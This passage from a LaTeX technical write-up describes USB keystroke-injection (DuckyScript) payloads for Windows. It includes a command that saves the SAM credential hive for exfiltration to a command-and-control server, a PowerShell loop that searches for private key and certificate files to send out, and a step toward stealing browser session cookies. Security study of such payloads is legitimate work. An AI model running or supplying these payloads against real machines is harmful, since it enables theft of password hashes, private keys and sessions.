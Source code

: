 Hash's associated keys, subkeys, and values make up a hive that can be exfiltrated from the Windows system by storing it in a file and sending it to a command and control (C\&C) server. \\
Once admin privileges on a terminal have been secured, this is a straightforward process. 


 \begin{lstlisting} [caption={Exceprt: extract and SSH files}, captionpos=b]
 STRINGLN reg save HKLM\SAM C:\sam.hiv
 \end{lstlisting}

\subsubsection{Extract Private Key Files}

File extensions can be searched with the help of PowerShell. For that reason, this extraction payload will run a simple loop on a predefined (default) path to a directory that is expected to contain private key files and send the discovered files to a command server. 

\begin{lstlisting}[caption={Exceprt: search for private key files by their file extension}, captionpos=b]
DUCKY_LANG DE_CH
DELAY 50
GUI r
DELAY 200
STRINGLN powershell.exe
DELAY 2500
STRINGLN $entryPoint = "your/path"
DELAY 200
STRINGLN $extensions = @(".key", ".pgp", ".gpg", ".ppk", ".p12", ".pem", ".pfx", ".cer", ".p7b", ".asc")
DELAY 200
STRINGLN Get-ChildItem -Path $entryPoint -Recurse | ForEach-Object {
DELAY 200
STRINGLN     if ($_.PSIsContainer) {
DELAY 200
STRINGLN         return
DELAY 200
STRINGLN     }
DELAY 200
STRINGLN     if ($extensions -contains $_.Extension) {
DELAY 200
\end{lstlisting}


\subsubsection{Steal Web Session Cookies}

A client's default browser can be extracted via PowerShell using only one line:
\begin{lstlisting}[caption={Exceprt: Find a target's default browser}, captionpos=b]
STRINGLN Get-ItemProperty -Path 'HKCU: Software\Microsoft\Windows\Shell\Associations\UrlAssociations\http\UserChoice' | Select-Object -ExpandProperty ProgId
\end{lstlisting}

